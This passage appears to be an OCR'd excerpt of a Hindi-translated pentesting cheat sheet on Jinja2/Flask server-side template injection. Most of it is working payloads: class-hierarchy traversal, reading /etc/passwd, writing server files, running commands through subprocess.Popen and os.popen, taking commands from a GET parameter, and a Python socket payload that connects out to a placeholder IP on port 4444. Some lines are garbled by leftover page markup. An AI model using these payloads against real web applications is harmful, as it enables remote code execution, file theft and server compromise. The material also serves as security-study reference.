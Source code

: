 ```python
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
{% endraw %}




# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```
### RCE Escaping

**पुनर्प्राप्त करने के बाद** `<class 'object'>` और `__subclasses__` को कॉल करने के बाद, हम अब उन कक्षाओं का उपयोग फ़ाइलें पढ़ने और लिखने और कोड निष्पादित करने के लिए कर सकते हैं।

`__subclasses__` को कॉल करने से हमें **सैकड़ों नई कार्यक्षमताओं** तक पहुँचने का अवसर मिला है, हम **फ़ाइल कक्षा** तक पहुँचकर **फ़ाइलें पढ़ने/लिखने** या किसी भी कक्षा तक पहुँचकर खुश होंगे जो **कमांड निष्पादित करने की अनुमति देती है** (जैसे `os`)।

**रिमोट फ़ाइल पढ़ें/लिखें**
```python
# ''.__class__.__mro__[1].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
**RCE**
```python
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

# Without '{{' and '}}'

<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-5='__builtins__' data-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='id' data-12='read' data-13=']() == ' data-14='chiv'> a </div>

# Calling os.popen without guessing the index of the class
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

## Passing the cmd line in a GET param
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{% endraw %}


## Passing the cmd line ?cmd=id, Without " and '
{{ dict.mro()[-1].__subclasses__()[276](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}

```
**अधिक कक्षाओं** के बारे में जानने के लिए जिन्हें आप **escape** करने के लिए उपयोग कर सकते हैं, आप **चेक** कर सकते हैं:
